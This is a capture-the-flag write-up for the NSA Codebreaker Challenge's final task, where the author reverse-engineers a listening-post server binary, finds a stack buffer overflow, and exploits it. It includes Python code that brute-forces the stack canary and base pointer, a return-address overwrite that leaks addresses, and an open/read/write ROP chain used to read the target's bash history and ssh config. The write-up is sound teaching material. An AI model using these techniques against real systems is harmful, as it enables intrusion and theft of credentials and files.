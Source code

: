 # NSACC Task 10 Writeup

## Prompt

NSA worked with FBI to notify all of the identified victims, who in turn notified DC3. Nicely done.

The final task is to uncover additional information about the actor's infrastructure.

Gain access to the LP. Provide the IP and port that the psuser account has transmitted data to. What lies behind the listening post?

Categories: Protocol Analysis, Software Development, Exploit Development

Points: 5000

## Solve

### New binary, who dis? 

This challenge starts by exploring the threat actor's listening post. the goal of this operation is to gain access to the `psuser` account, and after poking around at the machine to find any privilege escalation, I determined that chances were very good we would be hacking into the only process that the `psuser` user was running, something called `powershell_lp`. It turns out that this is an implementation of the server side of the malware from Task 4, which is cool continuity to have in a long challenge like this. 

So we are faced with a new binary, and first we run `file` on it.

```sh
powershell_lp: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2d839ebf8fe71992878404be06a9f9ad655ec83b, stripped
```

Ugh, it's stripped of all symbols. This will be fun (NOT!). We open it up in Ghidra, and begin the days-long reversing and bug finding exercise. Some things that either increased or decreased this time:

- Using [ApplySig.py](https://github.com/NWMonster/ApplySig) to apply a database of libc signatures to the file ([libc6_2.26-0ubuntu3_amd64.sig](libc6_2.26-0ubuntu3_amd64.sig)) based on the output of `strings` showing the OS this was compiled on. this shortened the reversing time by a whole lot.
- Focusing reverse engineering on control-flow-touched code, not bothering to reverse all functions present in the binary, just those which are executed. This helped steer away from complex functions that are never called from main().
- Mistaking two different implementations of socket `recv()` for one another: Countless hours :(

### The Bug

Finding the bug in this code is the first step to exploiting it. Thankfully we know that there will be a bug, and it's just a matter of finding it. The bug was eventually located in this function that I named `recv()`. It is shown below:

```c
uint recv(int sockfd,char *buf,ulong size,undefined8 x,char *sockaddr,int *sockaddr_len)

{
  int bytes_recvd;
  int *piVar1;
  undefined4 extraout_var;
  uint bytes_recvd_total;
  
  bytes_recvd_total = 0;
  do {
    while( true ) {
      if ((uint)size <= bytes_recvd_total) {
        return bytes_recvd_total;
      }
      piVar1 = nothing_idk();
      *piVar1 = 0;
      bytes_recvd = recvfrom(sockfd,buf + bytes_recvd_total,size & 0xffffffff,0,sockaddr,
                             sockaddr_len);
      if (CONCAT44(extraout_var,bytes_recvd) < 1) break;
      bytes_recvd_total = bytes_recvd_total + bytes_recvd;
    }
    piVar1 = nothing_idk();
  } while (*piVar1 == 4);
  return bytes_recvd_total;
}
```

The bug here is that the `buf` variable is allocated to be 4104 bytes on the stack. This can be overflowed by sending two packets to this server while supplying `size` to be 4096 (the largest allowable). The first packet would be of size 4095, which will result in another call to `recvfrom()` with size still 4096. Sending another large packet (size >9) will cause `recvfrom()` to read off the end of `buf`, causing a buffer overrun. 

### Exploitation

The whole exploit script is present in [exploit.py](exploit.py). First step now that we have a buffer overflow is to inspect the protections on the binary. 

```sh
pwn checksec powershell_lp
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found #There is actually canary on certain functions
    NX:       NX enabled
    PIE:      PIE enabled
```

Based on that, we can determine:

- We will need a leak to break PIE
- Probably not GOT overwrite given RELRO
- Stack Canary will require leaking or cracking
- Shellcode on the stack is out as a result of NX

#### Breaking Stack Canary

The first step to make use of this buffer overrun will be to break the stack canary. Given that the program outputs the exit code of the children upon exit, we can determine whether a child failed due to a modified stack canary (code 6) or any other exit code indicating stack canary was correct. We use this to brute force the canary one byte at a time, using this exit code as an oracle to determine whether the byte is correct. That section of the exploit code is as follows:

```py
for y in range(1, 9):
    print(f"\nForcing Canary Byte {y}")

    for x in range(0, 256):
        if connect_send_check(buf2=buf + x.to_bytes(1, "big"), check=0):
            buf += x.to_bytes(1, "big")
            print(f"Working: {buf.hex()}")
            break

print(f"Solved Stack Canary: {buf[-8:].hex()}")
```

#### Brute Forcing `%RBP`

Once we have forced out way past the stack canary, we have to write past `%RBP` to get to the return address, however the program crashes if this value is clobbered, as the stack frame will not restore properly. Therefore, we perform a very similar procedure on the base pointer to ensure that the value that we set it to will result in a successful (exit code 0) outcome. that code is below:

```py
for y in range(1, 9):
    print(f"\nForcing %RBP Byte {y}")

    # try most common values first
    for x in [255, 127] + list(range(256)):
        if connect_send_check(buf2=buf + x.to_bytes(1, "big"), check=0):
            buf += x.to_bytes(1, "big")
            print(f"Working: {buf.hex()}")
            break

print(f"Solved %rbp: {buf[-8:].hex()}")
```

#### Return Address & Leak

Now, we have a valid stack canary and a valid base pointer. The next value to be overwritten is the return address. This cannot just wildly be overwritten, as this will result in a crash, and it cannot be overwritten with a static value as it is randomized with PIE. Therefore, we overwrite the last byte with `0xbe` to jump to a call to `fprintf()` which leaks code addresses, which can be recovered from the logfile. 

```py
connect_send_check(buf2=buf + bytes.fromhex("be"))

with open("../psuser/ps_data.log", "rb") as f:
    x = f.read()

i = 0

stack_leak = u64(x[-134:-126])
code2_leak = u64(x[-102:-94])
code_leak = u64(x[-6:] + i.to_bytes(2, "big"))

# calculate offsets

stack = stack_leak - 0x1F950
code2 = code2_leak - 0x5C40
code = code_leak - 0x6D4A9
```

#### It's ROPping Time! 

Now, we have all the ingredients that we need to perform ROP. I chose to use an `open()`, `read()`, `write()` ROP payload, which is assembled using the perfect gadgets provided in this massive binary. In pseudocode, this is what our ROP does:

```
str = &write_to_scratch_space("/home/psuser/.bash_history\x00")
open(str, 0, 0)
read(5, str, 0x1000) // we know that the fd will be 5, as the logfile is fd 3 and the data file is fd 4
write(3, str, 0x1000)
```

This dumps the file contents to the logfile, and we indeed see the contents of the `.bash_history`:

```
...
man scp
scp -P 28222 ~/ps_data.log nexthop:
```

This step is repeated to print the ssh config in order to fully solve task 10:

```
Host nexthop
    Hostname: 10.62.55.52
    User: user
    IdentityFile: /home/psuser/.ssh/id_rsa
```